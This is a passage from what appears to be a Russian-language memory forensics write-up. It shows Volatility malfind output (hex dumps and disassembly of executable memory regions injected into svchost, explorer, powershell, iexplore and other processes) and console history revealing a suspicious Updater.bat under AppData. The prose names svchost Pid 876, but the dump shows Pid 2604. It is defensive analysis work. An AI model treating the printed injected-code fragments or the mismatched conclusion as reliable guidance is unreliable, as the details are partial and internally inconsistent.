0x00220000  b0 00 eb 70 b0 01 eb 6c b0 02 eb 68 b0 03 eb 64   ...p...l...h...d
0x00220010  b0 04 eb 60 b0 05 eb 5c b0 06 eb 58 b0 07 eb 54   ...`...\...X...T
0x00220020  b0 08 eb 50 b0 09 eb 4c b0 0a eb 48 b0 0b eb 44   ...P...L...H...D
0x00220030  b0 0c eb 40 b0 0d eb 3c b0 0e eb 38 b0 0f eb 34   ...@...<...8...4

0x00220000 b000             MOV AL, 0x0
0x00220002 eb70             JMP 0x220074
0x00220004 b001             MOV AL, 0x1
0x00220006 eb6c             JMP 0x220074
0x00220008 b002             MOV AL, 0x2
0x0022000a eb68             JMP 0x220074
0x0022000c b003             MOV AL, 0x3
0x0022000e eb64             JMP 0x220074
0x00220010 b004             MOV AL, 0x4
0x00220012 eb60             JMP 0x220074
0x00220014 b005             MOV AL, 0x5
0x00220016 eb5c             JMP 0x220074
0x00220018 b006             MOV AL, 0x6
0x0022001a eb58             JMP 0x220074
0x0022001c b007             MOV AL, 0x7
0x0022001e eb54             JMP 0x220074
0x00220020 b008             MOV AL, 0x8
0x00220022 eb50             JMP 0x220074
0x00220024 b009             MOV AL, 0x9
0x00220026 eb4c             JMP 0x220074
0x00220028 b00a             MOV AL, 0xa
0x0022002a eb48             JMP 0x220074
0x0022002c b00b             MOV AL, 0xb
0x0022002e eb44             JMP 0x220074
0x00220030 b00c             MOV AL, 0xc
0x00220032 eb40             JMP 0x220074
0x00220034 b00d             MOV AL, 0xd
0x00220036 eb3c             JMP 0x220074
0x00220038 b00e             MOV AL, 0xe
0x0022003a eb38             JMP 0x220074
0x0022003c b00f             MOV AL, 0xf
0x0022003e eb34             JMP 0x220074

Process: svchost.exe Pid: 2604 Address: 0x4d40000
Vad Tag: VadS Protection: PAGE_EXECUTE_READWRITE
Flags: CommitCharge: 128, MemCommit: 1, PrivateMemory: 1, Protection: 6

0x04d40000  08 00 42 00 00 00 00 05 8b 45 14 89 c2 8b 45 10   ..B......E....E.
0x04d40010  8b 08 8b 40 04 89 0a 89 42 04 8b 45 14 81 00 a0   ...@....B..E....
0x04d40020  00 00 00 8d 45 08 89 c2 8b 45 14 8b 08 89 0a 8b   ....E....E......
0x04d40030  45 14 89 c2 8b 45 08 8b 00 89 02 c7 42 04 00 00   E....E......B...

0x04d40000 0800             OR [EAX], AL
0x04d40002 42               INC EDX
0x04d40003 0000             ADD [EAX], AL
0x04d40005 0000             ADD [EAX], AL
0x04d40007 058b451489       ADD EAX, 0x8914458b
0x04d4000c c28b45           RET 0x458b
0x04d4000f 108b088b4004     ADC [EBX+0x4408b08], CL
0x04d40015 890a             MOV [EDX], ECX
0x04d40017 894204           MOV [EDX+0x4], EAX
0x04d4001a 8b4514           MOV EAX, [EBP+0x14]
0x04d4001d 8100a0000000     ADD DWORD [EAX], 0xa0
0x04d40023 8d4508           LEA EAX, [EBP+0x8]
0x04d40026 89c2             MOV EDX, EAX
0x04d40028 8b4514           MOV EAX, [EBP+0x14]
0x04d4002b 8b08             MOV ECX, [EAX]
0x04d4002d 890a             MOV [EDX], ECX
0x04d4002f 8b4514           MOV EAX, [EBP+0x14]
0x04d40032 89c2             MOV EDX, EAX
0x04d40034 8b4508           MOV EAX, [EBP+0x8]
0x04d40037 8b00             MOV EAX, [EAX]
0x04d40039 8902             MOV [EDX], EAX
0x04d4003b c7               DB 0xc7
0x04d4003c 42               INC EDX
0x04d4003d 0400             ADD AL, 0x0
0x04d4003f 00               DB 0x0

Process: svchost.exe Pid: 2604 Address: 0x4dc0000
Vad Tag: VadS Protection: PAGE_EXECUTE_READWRITE
Flags: CommitCharge: 256, MemCommit: 1, PrivateMemory: 1, Protection: 6

0x04dc0000  09 00 38 00 09 00 01 05 8b 55 18 8b 4d 54 8d 54   ..8......U..MT.T
0x04dc0010  0a fc 89 d6 b9 04 00 1a 00 ff 95 64 37 00 00 8b   ...........d7...
0x04dc0020  4d 1c 89 08 83 45 18 fc 8d 45 1c 8b 4d 18 89 08   M....E...E..M...
0x04dc0030  81 6d 18 98 02 00 00 9f 0f 90 c0 66 89 45 38 8d   .m.........f.E8.

0x04dc0000 0900             OR [EAX], EAX
0x04dc0002 3800             CMP [EAX], AL
0x04dc0004 0900             OR [EAX], EAX
0x04dc0006 01058b55188b     ADD [0x8b18558b], EAX
0x04dc000c 4d               DEC EBP
0x04dc000d 54               PUSH ESP
0x04dc000e 8d540afc         LEA EDX, [EDX+ECX-0x4]
0x04dc0012 89d6             MOV ESI, EDX
0x04dc0014 b904001a00       MOV ECX, 0x1a0004
0x04dc0019 ff9564370000     CALL DWORD [EBP+0x3764]
0x04dc001f 8b4d1c           MOV ECX, [EBP+0x1c]
0x04dc0022 8908             MOV [EAX], ECX
0x04dc0024 834518fc         ADD DWORD [EBP+0x18], -0x4
0x04dc0028 8d451c           LEA EAX, [EBP+0x1c]
0x04dc002b 8b4d18           MOV ECX, [EBP+0x18]
0x04dc002e 8908             MOV [EAX], ECX
0x04dc0030 816d1898020000   SUB DWORD [EBP+0x18], 0x298
0x04dc0037 9f               LAHF
0x04dc0038 0f90c0           SETO AL
0x04dc003b 66894538         MOV [EBP+0x38], AX
0x04dc003f 8d               DB 0x8d

Process: explorer.exe Pid: 3484 Address: 0x3610000
Vad Tag: VadS Protection: PAGE_EXECUTE_READWRITE
Flags: CommitCharge: 1, MemCommit: 1, PrivateMemory: 1, Protection: 6

0x03610000  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x03610010  00 00 61 03 00 00 00 00 00 00 00 00 00 00 00 00   ..a.............
0x03610020  10 00 61 03 00 00 00 00 00 00 00 00 00 00 00 00   ..a.............
0x03610030  20 00 61 03 00 00 00 00 00 00 00 00 00 00 00 00   ..a.............

0x03610000 0000             ADD [EAX], AL
0x03610002 0000             ADD [EAX], AL
0x03610004 0000             ADD [EAX], AL
0x03610006 0000             ADD [EAX], AL
0x03610008 0000             ADD [EAX], AL
0x0361000a 0000             ADD [EAX], AL
0x0361000c 0000             ADD [EAX], AL
0x0361000e 0000             ADD [EAX], AL
0x03610010 0000             ADD [EAX], AL
0x03610012 61               POPA
0x03610013 0300             ADD EAX, [EAX]
0x03610015 0000             ADD [EAX], AL
0x03610017 0000             ADD [EAX], AL
0x03610019 0000             ADD [EAX], AL
0x0361001b 0000             ADD [EAX], AL
0x0361001d 0000             ADD [EAX], AL
0x0361001f 0010             ADD [EAX], DL
0x03610021 006103           ADD [ECX+0x3], AH
0x03610024 0000             ADD [EAX], AL
0x03610026 0000             ADD [EAX], AL
0x03610028 0000             ADD [EAX], AL
0x0361002a 0000             ADD [EAX], AL
0x0361002c 0000             ADD [EAX], AL
0x0361002e 0000             ADD [EAX], AL
0x03610030 2000             AND [EAX], AL
0x03610032 61               POPA
0x03610033 0300             ADD EAX, [EAX]
0x03610035 0000             ADD [EAX], AL
0x03610037 0000             ADD [EAX], AL
0x03610039 0000             ADD [EAX], AL
0x0361003b 0000             ADD [EAX], AL
0x0361003d 0000             ADD [EAX], AL
0x0361003f 00               DB 0x0

Process: explorer.exe Pid: 3484 Address: 0x3840000
Vad Tag: VadS Protection: PAGE_EXECUTE_READWRITE
Flags: CommitCharge: 2, MemCommit: 1, PrivateMemory: 1, Protection: 6

0x03840000  b0 00 eb 70 b0 01 eb 6c b0 02 eb 68 b0 03 eb 64   ...p...l...h...d
0x03840010  b0 04 eb 60 b0 05 eb 5c b0 06 eb 58 b0 07 eb 54   ...`...\...X...T
0x03840020  b0 08 eb 50 b0 09 eb 4c b0 0a eb 48 b0 0b eb 44   ...P...L...H...D
0x03840030  b0 0c eb 40 b0 0d eb 3c b0 0e eb 38 b0 0f eb 34   ...@...<...8...4

0x03840000 b000             MOV AL, 0x0
0x03840002 eb70             JMP 0x3840074
0x03840004 b001             MOV AL, 0x1
0x03840006 eb6c             JMP 0x3840074
0x03840008 b002             MOV AL, 0x2
0x0384000a eb68             JMP 0x3840074
0x0384000c b003             MOV AL, 0x3
0x0384000e eb64             JMP 0x3840074
0x03840010 b004             MOV AL, 0x4
0x03840012 eb60             JMP 0x3840074
0x03840014 b005             MOV AL, 0x5
0x03840016 eb5c             JMP 0x3840074
0x03840018 b006             MOV AL, 0x6
0x0384001a eb58             JMP 0x3840074
0x0384001c b007             MOV AL, 0x7
0x0384001e eb54             JMP 0x3840074
0x03840020 b008             MOV AL, 0x8
0x03840022 eb50             JMP 0x3840074
0x03840024 b009             MOV AL, 0x9
0x03840026 eb4c             JMP 0x3840074
0x03840028 b00a             MOV AL, 0xa
0x0384002a eb48             JMP 0x3840074
0x0384002c b00b             MOV AL, 0xb
0x0384002e eb44             JMP 0x3840074
0x03840030 b00c             MOV AL, 0xc
0x03840032 eb40             JMP 0x3840074
0x03840034 b00d             MOV AL, 0xd
0x03840036 eb3c             JMP 0x3840074
0x03840038 b00e             MOV AL, 0xe
0x0384003a eb38             JMP 0x3840074
0x0384003c b00f             MOV AL, 0xf
0x0384003e eb34             JMP 0x3840074

Process: powershell.exe Pid: 3672 Address: 0x13e0000
Vad Tag: VadS Protection: PAGE_EXECUTE_READWRITE
Flags: CommitCharge: 1, PrivateMemory: 1, Protection: 6

0x013e0000  06 99 54 b3 34 10 00 01 ee ff ee ff 00 00 00 00   ..T.4...........
0x013e0010  a8 00 3e 01 a8 00 3e 01 00 00 3e 01 00 00 3e 01   ..>...>...>...>.
0x013e0020  40 00 00 00 88 05 3e 01 00 00 42 01 3f 00 00 00   @.....>...B.?...
0x013e0030  01 00 00 00 00 00 00 00 f0 0f 3e 01 f0 0f 3e 01   ..........>...>.

0x013e0000 06               PUSH ES
0x013e0001 99               CDQ
0x013e0002 54               PUSH ESP
0x013e0003 b334             MOV BL, 0x34
0x013e0005 1000             ADC [EAX], AL
0x013e0007 01ee             ADD ESI, EBP
0x013e0009 ff               DB 0xff
0x013e000a ee               OUT DX, AL
0x013e000b ff00             INC DWORD [EAX]
0x013e000d 0000             ADD [EAX], AL
0x013e000f 00a8003e01a8     ADD [EAX-0x57fec200], CH
0x013e0015 003e             ADD [ESI], BH
0x013e0017 0100             ADD [EAX], EAX
0x013e0019 003e             ADD [ESI], BH
0x013e001b 0100             ADD [EAX], EAX
0x013e001d 003e             ADD [ESI], BH
0x013e001f 014000           ADD [EAX+0x0], EAX
0x013e0022 0000             ADD [EAX], AL
0x013e0024 88053e010000     MOV [0x13e], AL
0x013e002a 42               INC EDX
0x013e002b 013f             ADD [EDI], EDI
0x013e002d 0000             ADD [EAX], AL
0x013e002f 0001             ADD [ECX], AL
0x013e0031 0000             ADD [EAX], AL
0x013e0033 0000             ADD [EAX], AL
0x013e0035 0000             ADD [EAX], AL
0x013e0037 00f0             ADD AL, DH
0x013e0039 0f               DB 0xf
0x013e003a 3e01f0           ADD EAX, ESI
0x013e003d 0f               DB 0xf
0x013e003e 3e               DB 0x3e
0x013e003f 01               DB 0x1

Process: powershell.exe Pid: 3672 Address: 0x21a0000
Vad Tag: VadS Protection: PAGE_EXECUTE_READWRITE
Flags: CommitCharge: 4, PrivateMemory: 1, Protection: 6

0x021a0000  cb 0a f0 ca df 9b 00 01 ee ff ee ff 00 00 00 00   ................
0x021a0010  a8 00 1a 02 a8 00 1a 02 00 00 1a 02 00 00 1a 02   ................
0x021a0020  40 00 00 00 88 05 1a 02 00 00 1e 02 3c 00 00 00   @...........<...
0x021a0030  01 00 00 00 00 00 00 00 f0 3f 1a 02 f0 3f 1a 02   .........?...?..

0x021a0000 cb               RETF
0x021a0001 0af0             OR DH, AL
0x021a0003 cadf9b           RETF 0x9bdf
0x021a0006 0001             ADD [ECX], AL
0x021a0008 ee               OUT DX, AL
0x021a0009 ff               DB 0xff
0x021a000a ee               OUT DX, AL
0x021a000b ff00             INC DWORD [EAX]
0x021a000d 0000             ADD [EAX], AL
0x021a000f 00a8001a02a8     ADD [EAX-0x57fde600], CH
0x021a0015 001a             ADD [EDX], BL
0x021a0017 0200             ADD AL, [EAX]
0x021a0019 001a             ADD [EDX], BL
0x021a001b 0200             ADD AL, [EAX]
0x021a001d 001a             ADD [EDX], BL
0x021a001f 024000           ADD AL, [EAX+0x0]
0x021a0022 0000             ADD [EAX], AL
0x021a0024 88051a020000     MOV [0x21a], AL
0x021a002a 1e               PUSH DS
0x021a002b 023c00           ADD BH, [EAX+EAX]
0x021a002e 0000             ADD [EAX], AL
0x021a0030 0100             ADD [EAX], EAX
0x021a0032 0000             ADD [EAX], AL
0x021a0034 0000             ADD [EAX], AL
0x021a0036 0000             ADD [EAX], AL
0x021a0038 f03f             AAS
0x021a003a 1a02             SBB AL, [EDX]
0x021a003c f03f             AAS
0x021a003e 1a02             SBB AL, [EDX]

Process: powershell.exe Pid: 3672 Address: 0x9320000
Vad Tag: VadS Protection: PAGE_EXECUTE_READWRITE
Flags: CommitCharge: 5, PrivateMemory: 1, Protection: 6

0x09320000  51 05 39 f9 ee 8f 00 01 ee ff ee ff 00 00 00 00   Q.9.............
0x09320010  a8 00 32 09 a8 00 32 09 00 00 32 09 00 00 32 09   ..2...2...2...2.
0x09320020  40 00 00 00 88 05 32 09 00 00 36 09 3b 00 00 00   @.....2...6.;...
0x09320030  01 00 00 00 00 00 00 00 f0 4f 32 09 f0 4f 32 09   .........O2..O2.

0x09320000 51               PUSH ECX
0x09320001 0539f9ee8f       ADD EAX, 0x8feef939
0x09320006 0001             ADD [ECX], AL
0x09320008 ee               OUT DX, AL
0x09320009 ff               DB 0xff
0x0932000a ee               OUT DX, AL
0x0932000b ff00             INC DWORD [EAX]
0x0932000d 0000             ADD [EAX], AL
0x0932000f 00a8003209a8     ADD [EAX-0x57f6ce00], CH
0x09320015 0032             ADD [EDX], DH
0x09320017 0900             OR [EAX], EAX
0x09320019 0032             ADD [EDX], DH
0x0932001b 0900             OR [EAX], EAX
0x0932001d 0032             ADD [EDX], DH
0x0932001f 094000           OR [EAX+0x0], EAX
0x09320022 0000             ADD [EAX], AL
0x09320024 880532090000     MOV [0x932], AL
0x0932002a 36093b           OR [SS:EBX], EDI
0x0932002d 0000             ADD [EAX], AL
0x0932002f 0001             ADD [ECX], AL
0x09320031 0000             ADD [EAX], AL
0x09320033 0000             ADD [EAX], AL
0x09320035 0000             ADD [EAX], AL
0x09320037 00f0             ADD AL, DH
0x09320039 4f               DEC EDI
0x0932003a 3209             XOR CL, [ECX]
0x0932003c f04f             DEC EDI
0x0932003e 3209             XOR CL, [ECX]

Process: powershell.exe Pid: 3672 Address: 0x7ff50000
Vad Tag: VadS Protection: PAGE_EXECUTE_READWRITE
Flags: CommitCharge: 1, PrivateMemory: 1, Protection: 6

0x7ff50000  00 00 00 00 97 19 00 00 00 00 00 00 0e 00 00 00   ................
0x7ff50010  68 00 00 00 00 e9 32 3d 25 82 68 01 00 00 00 e9   h.....2=%.h.....
0x7ff50020  28 3d 25 82 68 02 00 00 00 e9 1e 3d 25 82 68 03   (=%.h......=%.h.
0x7ff50030  00 00 00 e9 14 3d 25 82 68 04 00 00 00 e9 0a 3d   .....=%.h......=

0x7ff50000 0000             ADD [EAX], AL
0x7ff50002 0000             ADD [EAX], AL
0x7ff50004 97               XCHG EDI, EAX
0x7ff50005 1900             SBB [EAX], EAX
0x7ff50007 0000             ADD [EAX], AL
0x7ff50009 0000             ADD [EAX], AL
0x7ff5000b 000e             ADD [ESI], CL
0x7ff5000d 0000             ADD [EAX], AL
0x7ff5000f 006800           ADD [EAX+0x0], CH
0x7ff50012 0000             ADD [EAX], AL
0x7ff50014 00e9             ADD CL, CH
0x7ff50016 323d25826801     XOR BH, [0x1688225]
0x7ff5001c 0000             ADD [EAX], AL
0x7ff5001e 00e9             ADD CL, CH
0x7ff50020 283d25826802     SUB [0x2688225], BH
0x7ff50026 0000             ADD [EAX], AL
0x7ff50028 00e9             ADD CL, CH
0x7ff5002a 1e               PUSH DS
0x7ff5002b 3d25826803       CMP EAX, 0x3688225
0x7ff50030 0000             ADD [EAX], AL
0x7ff50032 00e9             ADD CL, CH
0x7ff50034 143d             ADC AL, 0x3d
0x7ff50036 2582680400       AND EAX, 0x46882
0x7ff5003b 0000             ADD [EAX], AL
0x7ff5003d e9               DB 0xe9
0x7ff5003e 0a               DB 0xa
0x7ff5003f 3d               DB 0x3d

Process: powershell.exe Pid: 3672 Address: 0x7ff60000
Vad Tag: VadS Protection: PAGE_EXECUTE_READWRITE
Flags: CommitCharge: 1, PrivateMemory: 1, Protection: 6

0x7ff60000  ec ff ff ff 04 00 00 00 01 00 00 00 00 00 08 01   ................
0x7ff60010  1c 00 00 00 15 00 0e 00 0e 00 00 00 98 26 a6 66   .............&.f
0x7ff60020  00 10 7f 66 dc 70 81 66 2c 30 7f 66 00 00 00 00   ...f.p.f,0.f....
0x7ff60030  00 00 00 00 10 00 f5 7f 1a 00 f5 7f 24 00 f5 7f   ............$...

0x7ff60000 ec               IN AL, DX
0x7ff60001 ff               DB 0xff
0x7ff60002 ff               DB 0xff
0x7ff60003 ff0400           INC DWORD [EAX+EAX]
0x7ff60006 0000             ADD [EAX], AL
0x7ff60008 0100             ADD [EAX], EAX
0x7ff6000a 0000             ADD [EAX], AL
0x7ff6000c 0000             ADD [EAX], AL
0x7ff6000e 0801             OR [ECX], AL
0x7ff60010 1c00             SBB AL, 0x0
0x7ff60012 0000             ADD [EAX], AL
0x7ff60014 15000e000e       ADC EAX, 0xe000e00
0x7ff60019 0000             ADD [EAX], AL
0x7ff6001b 009826a66600     ADD [EAX+0x66a626], BL
0x7ff60021 107f66           ADC [EDI+0x66], BH
0x7ff60024 dc7081           FDIV QWORD [EAX-0x7f]
0x7ff60027 662c30           SUB AL, 0x30
0x7ff6002a 7f66             JG 0x7ff60092
0x7ff6002c 0000             ADD [EAX], AL
0x7ff6002e 0000             ADD [EAX], AL
0x7ff60030 0000             ADD [EAX], AL
0x7ff60032 0000             ADD [EAX], AL
0x7ff60034 1000             ADC [EAX], AL
0x7ff60036 f5               CMC
0x7ff60037 7f1a             JG 0x7ff60053
0x7ff60039 00f5             ADD CH, DH
0x7ff6003b 7f24             JG 0x7ff60061
0x7ff6003d 00f5             ADD CH, DH
0x7ff6003f 7f               DB 0x7f

Process: iexplore.exe Pid: 992 Address: 0x2bc0000
Vad Tag: VadS Protection: PAGE_EXECUTE_READWRITE
Flags: CommitCharge: 2, MemCommit: 1, PrivateMemory: 1, Protection: 6

0x02bc0000  b0 00 eb 70 b0 01 eb 6c b0 02 eb 68 b0 03 eb 64   ...p...l...h...d
0x02bc0010  b0 04 eb 60 b0 05 eb 5c b0 06 eb 58 b0 07 eb 54   ...`...\...X...T
0x02bc0020  b0 08 eb 50 b0 09 eb 4c b0 0a eb 48 b0 0b eb 44   ...P...L...H...D
0x02bc0030  b0 0c eb 40 b0 0d eb 3c b0 0e eb 38 b0 0f eb 34   ...@...<...8...4

0x02bc0000 b000             MOV AL, 0x0
0x02bc0002 eb70             JMP 0x2bc0074
0x02bc0004 b001             MOV AL, 0x1
0x02bc0006 eb6c             JMP 0x2bc0074
0x02bc0008 b002             MOV AL, 0x2
0x02bc000a eb68             JMP 0x2bc0074
0x02bc000c b003             MOV AL, 0x3
0x02bc000e eb64             JMP 0x2bc0074
0x02bc0010 b004             MOV AL, 0x4
0x02bc0012 eb60             JMP 0x2bc0074
0x02bc0014 b005             MOV AL, 0x5
0x02bc0016 eb5c             JMP 0x2bc0074
0x02bc0018 b006             MOV AL, 0x6
0x02bc001a eb58             JMP 0x2bc0074
0x02bc001c b007             MOV AL, 0x7
0x02bc001e eb54             JMP 0x2bc0074
0x02bc0020 b008             MOV AL, 0x8
0x02bc0022 eb50             JMP 0x2bc0074
0x02bc0024 b009             MOV AL, 0x9
0x02bc0026 eb4c             JMP 0x2bc0074
0x02bc0028 b00a             MOV AL, 0xa
0x02bc002a eb48             JMP 0x2bc0074
0x02bc002c b00b             MOV AL, 0xb
0x02bc002e eb44             JMP 0x2bc0074
0x02bc0030 b00c             MOV AL, 0xc
0x02bc0032 eb40             JMP 0x2bc0074
0x02bc0034 b00d             MOV AL, 0xd
0x02bc0036 eb3c             JMP 0x2bc0074
0x02bc0038 b00e             MOV AL, 0xe
0x02bc003a eb38             JMP 0x2bc0074
0x02bc003c b00f             MOV AL, 0xf
0x02bc003e eb34             JMP 0x2bc0074

Process: iexplore.exe Pid: 1776 Address: 0xd00000
Vad Tag: VadS Protection: PAGE_EXECUTE_READWRITE
Flags: CommitCharge: 2, MemCommit: 1, PrivateMemory: 1, Protection: 6

0x00d00000  b0 00 eb 70 b0 01 eb 6c b0 02 eb 68 b0 03 eb 64   ...p...l...h...d
0x00d00010  b0 04 eb 60 b0 05 eb 5c b0 06 eb 58 b0 07 eb 54   ...`...\...X...T
0x00d00020  b0 08 eb 50 b0 09 eb 4c b0 0a eb 48 b0 0b eb 44   ...P...L...H...D
0x00d00030  b0 0c eb 40 b0 0d eb 3c b0 0e eb 38 b0 0f eb 34   ...@...<...8...4

0x00d00000 b000             MOV AL, 0x0
0x00d00002 eb70             JMP 0xd00074
0x00d00004 b001             MOV AL, 0x1
0x00d00006 eb6c             JMP 0xd00074
0x00d00008 b002             MOV AL, 0x2
0x00d0000a eb68             JMP 0xd00074
0x00d0000c b003             MOV AL, 0x3
0x00d0000e eb64             JMP 0xd00074
0x00d00010 b004             MOV AL, 0x4
0x00d00012 eb60             JMP 0xd00074
0x00d00014 b005             MOV AL, 0x5
0x00d00016 eb5c             JMP 0xd00074
0x00d00018 b006             MOV AL, 0x6
0x00d0001a eb58             JMP 0xd00074
0x00d0001c b007             MOV AL, 0x7
0x00d0001e eb54             JMP 0xd00074
0x00d00020 b008             MOV AL, 0x8
0x00d00022 eb50             JMP 0xd00074
0x00d00024 b009             MOV AL, 0x9
0x00d00026 eb4c             JMP 0xd00074
0x00d00028 b00a             MOV AL, 0xa
0x00d0002a eb48             JMP 0xd00074
0x00d0002c b00b             MOV AL, 0xb
0x00d0002e eb44             JMP 0xd00074
0x00d00030 b00c             MOV AL, 0xc
0x00d00032 eb40             JMP 0xd00074
0x00d00034 b00d             MOV AL, 0xd
0x00d00036 eb3c             JMP 0xd00074
0x00d00038 b00e             MOV AL, 0xe
0x00d0003a eb38             JMP 0xd00074
0x00d0003c b00f             MOV AL, 0xf
0x00d0003e eb34             JMP 0xd00074

Process: iexplore.exe Pid: 1776 Address: 0xb510000
Vad Tag: VadS Protection: PAGE_EXECUTE_READWRITE
Flags: CommitCharge: 10, MemCommit: 1, PrivateMemory: 1, Protection: 6

0x0b510000  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x0b510010  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x0b510020  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................
0x0b510030  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00   ................

0x0b510000 0000             ADD [EAX], AL
0x0b510002 0000             ADD [EAX], AL
0x0b510004 0000             ADD [EAX], AL
0x0b510006 0000             ADD [EAX], AL
0x0b510008 0000             ADD [EAX], AL
0x0b51000a 0000             ADD [EAX], AL
0x0b51000c 0000             ADD [EAX], AL
0x0b51000e 0000             ADD [EAX], AL
0x0b510010 0000             ADD [EAX], AL
0x0b510012 0000             ADD [EAX], AL
0x0b510014 0000             ADD [EAX], AL
0x0b510016 0000             ADD [EAX], AL
0x0b510018 0000             ADD [EAX], AL
0x0b51001a 0000             ADD [EAX], AL
0x0b51001c 0000             ADD [EAX], AL
0x0b51001e 0000             ADD [EAX], AL
0x0b510020 0000             ADD [EAX], AL
0x0b510022 0000             ADD [EAX], AL
0x0b510024 0000             ADD [EAX], AL
0x0b510026 0000             ADD [EAX], AL
0x0b510028 0000             ADD [EAX], AL
0x0b51002a 0000             ADD [EAX], AL
0x0b51002c 0000             ADD [EAX], AL
0x0b51002e 0000             ADD [EAX], AL
0x0b510030 0000             ADD [EAX], AL
0x0b510032 0000             ADD [EAX], AL
0x0b510034 0000             ADD [EAX], AL
0x0b510036 0000             ADD [EAX], AL
0x0b510038 0000             ADD [EAX], AL
0x0b51003a 0000             ADD [EAX], AL
0x0b51003c 0000             ADD [EAX], AL
0x0b51003e 0000             ADD [EAX], AL

Process: WmiPrvSE.exe Pid: 2480 Address: 0x1a50000
Vad Tag: VadS Protection: PAGE_EXECUTE_READWRITE
Flags: CommitCharge: 1, PrivateMemory: 1, Protection: 6

0x01a50000  8b 33 97 ec 63 5f 00 01 ee ff ee ff 00 00 00 00   .3..c_..........
0x01a50010  a8 00 a5 01 a8 00 a5 01 00 00 a5 01 00 00 a5 01   ................
0x01a50020  40 00 00 00 88 05 a5 01 00 00 a9 01 3f 00 00 00   @...........?...
0x01a50030  01 00 00 00 00 00 00 00 f0 0f a5 01 f0 0f a5 01   ................

0x01a50000 8b33             MOV ESI, [EBX]
0x01a50002 97               XCHG EDI, EAX
0x01a50003 ec               IN AL, DX
0x01a50004 635f00           ARPL [EDI+0x0], BX
0x01a50007 01ee             ADD ESI, EBP
0x01a50009 ff               DB 0xff
0x01a5000a ee               OUT DX, AL
0x01a5000b ff00             INC DWORD [EAX]
0x01a5000d 0000             ADD [EAX], AL
0x01a5000f 00a800a501a8     ADD [EAX-0x57fe5b00], CH
0x01a50015 00a5010000a5     ADD [EBP-0x5affffff], AH
0x01a5001b 0100             ADD [EAX], EAX
0x01a5001d 00a501400000     ADD [EBP+0x4001], AH
0x01a50023 008805a50100     ADD [EAX+0x1a505], CL
0x01a50029 00a9013f0000     ADD [ECX+0x3f01], CH
0x01a5002f 0001             ADD [ECX], AL
0x01a50031 0000             ADD [EAX], AL
0x01a50033 0000             ADD [EAX], AL
0x01a50035 0000             ADD [EAX], AL
0x01a50037 00f0             ADD AL, DH
0x01a50039 0fa501           SHLD DWORD [ECX], EAX, CL
0x01a5003c f00fa501         SHLD DWORD [ECX], EAX, CL

Process: FTK Imager.exe Pid: 1812 Address: 0x87f0000
Vad Tag: VadS Protection: PAGE_EXECUTE_READWRITE
Flags: CommitCharge: 2, MemCommit: 1, PrivateMemory: 1, Protection: 6

0x087f0000  b0 00 eb 70 b0 01 eb 6c b0 02 eb 68 b0 03 eb 64   ...p...l...h...d
0x087f0010  b0 04 eb 60 b0 05 eb 5c b0 06 eb 58 b0 07 eb 54   ...`...\...X...T
0x087f0020  b0 08 eb 50 b0 09 eb 4c b0 0a eb 48 b0 0b eb 44   ...P...L...H...D
0x087f0030  b0 0c eb 40 b0 0d eb 3c b0 0e eb 38 b0 0f eb 34   ...@...<...8...4

0x087f0000 b000             MOV AL, 0x0
0x087f0002 eb70             JMP 0x87f0074
0x087f0004 b001             MOV AL, 0x1
0x087f0006 eb6c             JMP 0x87f0074
0x087f0008 b002             MOV AL, 0x2
0x087f000a eb68             JMP 0x87f0074
0x087f000c b003             MOV AL, 0x3
0x087f000e eb64             JMP 0x87f0074
0x087f0010 b004             MOV AL, 0x4
0x087f0012 eb60             JMP 0x87f0074
0x087f0014 b005             MOV AL, 0x5
0x087f0016 eb5c             JMP 0x87f0074
0x087f0018 b006             MOV AL, 0x6
0x087f001a eb58             JMP 0x87f0074
0x087f001c b007             MOV AL, 0x7
0x087f001e eb54             JMP 0x87f0074
0x087f0020 b008             MOV AL, 0x8
0x087f0022 eb50             JMP 0x87f0074
0x087f0024 b009             MOV AL, 0x9
0x087f0026 eb4c             JMP 0x87f0074
0x087f0028 b00a             MOV AL, 0xa
0x087f002a eb48             JMP 0x87f0074
0x087f002c b00b             MOV AL, 0xb
0x087f002e eb44             JMP 0x87f0074
0x087f0030 b00c             MOV AL, 0xc
0x087f0032 eb40             JMP 0x87f0074
0x087f0034 b00d             MOV AL, 0xd
0x087f0036 eb3c             JMP 0x87f0074
0x087f0038 b00e             MOV AL, 0xe
0x087f003a eb38             JMP 0x87f0074
0x087f003c b00f             MOV AL, 0xf
0x087f003e eb34             JMP 0x87f0074
```
Вывод команды показал наличие инжектированного кода в процессах svchost.exe (Pid: 876), explorer.exe (Pid: 3484), iexplore.exe (Pid: 992), iexplore.exe (Pid: 1776) и FTK Imager.exe (Pid: 1812). 


### Анализ информации в командных оболочках:

Для анализа происходящего в командных оболочках Windows выполним команду `.\volatility_2.6_win64_standalone.exe -f Incident.mem --profile Win7SP1x86 consoles`. Получим следующий вывод:

```
Volatility Foundation Volatility Framework 2.6
**************************************************
ConsoleProcess: conhost.exe Pid: 1716
Console: 0xd981c0 CommandHistorySize: 50
HistoryBufferCount: 2 HistoryBufferMax: 4
OriginalTitle: C:\Program Files\OpenSSH\bin\cygrunsrv.exe
Title: C:\Program Files\OpenSSH\bin\cygrunsrv.exe
AttachedProcess: sshd.exe Pid: 1740 Handle: 0x54
----
CommandHistory: 0x1d0960 Application: sshd.exe Flags: Allocated
CommandCount: 0 LastAdded: -1 LastDisplayed: -1
FirstCommand: 0 CommandCountMax: 50
ProcessHandle: 0x54
----
CommandHistory: 0x1d07f0 Application: cygrunsrv.exe Flags:
CommandCount: 0 LastAdded: -1 LastDisplayed: -1
FirstCommand: 0 CommandCountMax: 50
ProcessHandle: 0x0
----
Screen 0x1e60a8 X:80 Y:300
Dump:

**************************************************
ConsoleProcess: conhost.exe Pid: 1540
Console: 0xd981c0 CommandHistorySize: 50
HistoryBufferCount: 2 HistoryBufferMax: 4
OriginalTitle: C:\Users\Wilfred\AppData\Roaming\Identities\Updater.bat
Title: Administrator: C:\Users\Wilfred\AppData\Roaming\Identities\Updater.bat
AttachedProcess: powershell.exe Pid: 3672 Handle: 0x88
AttachedProcess: cmd.exe Pid: 3008 Handle: 0x5c
----
CommandHistory: 0x396bc8 Application: powershell.exe Flags: Allocated
CommandCount: 0 LastAdded: -1 LastDisplayed: -1
FirstCommand: 0 CommandCountMax: 50
ProcessHandle: 0x88
----
